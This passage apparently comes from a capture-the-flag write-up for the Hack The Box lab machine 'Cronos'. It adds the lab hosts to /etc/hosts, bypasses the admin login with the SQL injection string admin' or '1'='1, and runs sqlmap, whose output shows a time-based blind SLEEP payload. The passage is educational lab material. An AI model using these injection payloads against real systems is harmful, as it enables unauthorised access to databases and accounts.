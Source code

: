 Now we need to add the found domain and subdomains to our /etc/hosts

```
10.129.172.234	cronos.htb
10.129.172.234	admin.cronos.htb
10.129.172.234	ns1.cronos.htb
10.129.172.234	www.cronos.htb
```

After which we can open a login portal from admin.cronos.htb. In www.cronos.htb we have a Laravel CMS site.

## Vulnerability Scanning


## Initial Access: admin portal access

The initial access can be done using SQL injection on the admin login page. For example

```
admin' or '1'='1
```

as a username works. After logging in we are treated with a submit form for a Net Tool v0.1.

Since SQL injection seems to work do some more investigation with sqlmap. This is not strictly needed for the machine but good exercise.

Databases

```
$ sqlmap -u 'http://admin.cronos.htb/index.php' --data="username=hacked&password=server&form=submit" --dbms=mysql --dbs
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.5.9#stable}
|_ -| . [,]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 12:06:10 /2022-01-06/

[12:06:10] [INFO] testing connection to the target URL
you have not declared cookie(s), while server wants to set its own ('PHPSESSID=9rimg19d7p7...ihfmrafi66'). Do you want to use those [Y/n] 
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=hacked' AND (SELECT 4933 FROM (SELECT(SLEEP(5)))azsy) AND 'cuqk'='cuqk&password=server&form=submit
---
[12:06:11] [INFO] testing MySQL
[12:06:19] [INFO] confirming MySQLize value(s) for DBMS delay responses (option '--time-sec')? [Y/n] 
[12:06:19] [WARNING] it is very important to not stress the network connection during usage of time-based payloads to prevent potential disruptions 
[12:06:29] [INFO] adjusting time delay to 1 second due to good response times
[12:06:29] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.10 or 16.04 (yakkety or xenial)
web application technology: Apache 2.4.18, PHP
back-end DBMS: MySQL >= 5.0.0
```